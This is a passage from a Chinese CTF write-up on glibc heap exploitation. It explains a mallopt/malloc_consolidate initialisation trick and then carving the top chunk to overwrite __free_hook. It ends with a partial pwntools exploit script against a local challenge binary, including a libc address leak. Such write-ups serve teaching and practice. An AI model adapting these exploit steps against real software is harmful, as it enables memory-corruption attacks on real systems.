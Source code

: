 [![](https://p4.ssl.qhimg.com/t01aa1974d35966c2ad.png)](https://p4.ssl.qhimg.com/t01aa1974d35966c2ad.png)

接着利用mallopt()-&gt;malloc_consolidate()-&gt;malloc_init_state()这一条调用链触发初始化

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0161df9ec92ad5e76f.png)

[![](https://p5.ssl.qhimg.com/t0140f1ba432c645f5d.png)](https://p5.ssl.qhimg.com/t0140f1ba432c645f5d.png)

接下来就是不断申请内存切割top chunk，从而覆盖到__free_hook<br>
为了尽量避免SIGV，申请的chunk要尽量大一些，这样写入的字符尽量少一些



## EXP

```
#! /usr/bin/python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
context(arch='amd64', os='linux')

elf = ELF('./ba_zui_bi_shang')
sh = process('./ba_zui_bi_shang')
proc_base = sh.libs()[sh.cwd + sh.argv[0].strip('.')]
libc = ELF('./libc.so.6')

def Log(val):
    log.success('%s = %s'%(str(val), hex(eval(val))))

def Cmd(i):
    sh.recvuntil(' &gt; ')
    sh.sendline(str(i))

def Create(L, cont):
    Cmd(1)
    sh.sendlineafter(' &gt; ', str(L))
    sh.recvuntil(' &gt; ')
    sh.send(cont)    

def Free():
    Cmd(2)

def Mallopt(param, val):
    Cmd(3)
    sh.sendlineafter(' &gt; ', str(param))
    sh.sendlineafter(' &gt; ', str(val))

def CreateBuf(L, cont, wait=True):
    if(wait):
        Cmd(4)
    sh.sendlineafter(' &gt; ', str(L))
    sh.recvuntil(' &gt; ')
    sh.send(cont)


sh.recvuntil('Your Gift : ')
libc.address = int(sh.recvline(), 16) - libc.symbols['puts']
Log('libc.address')

CreateBuf(0x480, 'A'*0x480, False)    #big chunk
Create(0x10, 'B'*0x10)                #gap to avoid consolidate with top chunk
```